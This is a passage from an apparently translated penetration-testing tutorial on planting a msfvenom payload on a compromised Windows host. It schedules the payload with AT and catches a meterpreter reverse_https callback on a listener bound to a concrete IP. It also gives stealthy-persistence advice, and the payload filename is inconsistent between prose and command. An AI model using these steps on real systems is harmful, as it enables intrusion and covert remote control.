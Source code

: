| `-h` | `--help` |  | 显示此消息 |
|  | `--help-formats` |  | 列出可用格式 |

以下截图显示了命令的输出。`msfvenom`显示没有使用编码器，并且在构建中没有检查坏字符。对于这个演示，它们是不需要的：

![](img/3e1676cc-08b2-4d69-8f8d-0ca3f078f49a.png)

现在，通过运行`ls`命令，我们可以看到我们的文件：

![](img/d691b71a-d30d-485e-ab9c-9f5c3c102ced.png)

现在我们有东西要上传。就像 Ncat 示例一样，我们将使用我们对系统的内部妥协来上传我们的漏洞利用：

![](img/88154cef-8391-4a74-b654-6e58255622c3.png)

与 Ncat 一样，我们将进入受害者机器并设置`AT`命令运行`svchost13.exe`：

```
shell
AT 5:25PM c:\windows\svchost.exe
exit  
```

在下午 5:25 之前，登录到恶意服务器`//rogue3`。启动 Metasploit 服务`msfconsole`，设置监听器并接受连接。然后使用以下命令设置常见处理程序模块：

```
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 128.199.190.69
set LPORT 443
exploit  
```

运行 exploit 后，处理程序将开始监听端口`443`，等待你无助的受害者打电话回家。等待一会儿后，我们看到一个来自`69.131.155.226`的连接。这是我们受害者机器背后防火墙的地址。然后处理程序给我们系统的命令提示符。运行 Meterpreter 命令`sysinfo`，我们可以看到名称和机器信息。从这里，你拥有完全的控制权！

一个真正的攻击者可能设置这个漏洞并且几个月后才回来。唯一的问题迹象将是每天下午 5:25 只有一个连接出去并失败。这只是网络上的一个小问题。
